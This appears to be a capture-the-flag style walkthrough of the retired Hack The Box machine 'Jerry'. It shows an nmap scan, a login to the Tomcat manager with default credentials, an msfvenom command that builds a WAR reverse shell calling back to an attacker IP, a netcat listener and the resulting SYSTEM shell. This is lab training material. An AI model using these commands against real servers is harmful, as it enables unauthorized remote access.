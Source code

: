```yaml
---
layout: post
title: "HTB-Jerry"
categories: HTB-Walkthrough
---
```


![jerry](/assets/img/jerry/jerry1.png)


Jerry is another OSCP-like box from the HTB 'retired' archive. It's one of the most straight
forward boxes on the list.



<h3>Nmap</h3>

`nmap -sV -Pn --min-rate 10000 10.10.10.95 |tee -a jerry.txt`

```

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1

```

Not much appears to be going on! We have a Tomcat server on port 8080; these are usually straight
forward to pwn.

`Apache Tomcat/7.0.88`

Clicking on the `Manager App` button we get a login popup, admin/admin fails, and we are directed
to an error page.

![tomcat-error](/assets/img/jerry/jerry-tomcat-error.png)

It discloses the example creds of tomcat/s3cret.

Trying these creds is successful and we are taken to a manager's dashboard.

<hr width="250" size="6">


We need to upload an evil WAR file containing a reverse shell to gain access to the target.

The first step is to generate one with msfvenom.


<h3>msfvenom</h3>

```

msfvenom -p java/jsp_shell_reverse_tcp -f war lhost=10.10.14.14 lport=443 -o evil.war

```

<hr width="250" size="6">

<h3>Exploit</h3>

Time to upload the war file.

![upload war](/assets/img/jerry/jerry-upload-war.png)

Once uploaded its time to execute the exploit. Make sure a netcat listener is set to 443
`nc -nlvp 443'

To pull the trigger, simply click on /evil in the list.

![execute](/assets/img/jerry/jerry-execute.png)


we get our shell...

![revshell](/assets/img/jerry/jerry-revshell.png)


Its already a shell with System/Administrator privileges, so it's no effort to pick up the flags.

:)



